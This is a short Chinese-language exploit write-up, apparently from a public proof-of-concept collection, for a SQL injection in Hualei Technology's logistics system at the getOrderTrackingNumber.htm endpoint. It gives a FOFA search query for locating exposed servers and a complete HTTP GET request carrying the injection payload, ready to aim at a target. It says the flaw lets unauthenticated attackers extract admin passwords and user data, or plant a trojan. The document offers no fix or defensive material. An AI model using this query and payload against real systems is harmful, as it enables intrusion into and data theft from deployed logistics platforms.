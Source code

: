 # 华磊科技物流getOrderTrackingNumber存在sql注入漏洞

华磊科技物流系统 getOrderTrackingNumber.htm等接口处存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```yaml
 body="l_c_bar"||body="l_c_center"
```

## poc

```yaml
GET /getOrderTrackingNumber.htm?documentCode=1'and%0a1=user::integer-- HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
```

![124f279b89f8424f958930e6abe3022f.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407232011946.png)